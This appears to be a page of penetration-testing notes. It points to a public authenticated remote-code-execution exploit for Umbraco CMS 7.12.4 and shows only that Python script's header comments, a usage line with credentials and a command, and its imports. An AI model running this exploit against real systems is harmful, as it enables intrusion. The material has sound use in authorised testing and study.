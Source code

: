 ![](../../.gitbook/assets/8-ssmith.png)

### Umbraco 7.12.4 Remote Code Exploit

[https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

```python
# Exploit Title: Umbraco CMS - Authenticated Remote Code Execution 
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse

from bs4 import BeautifulSoup

```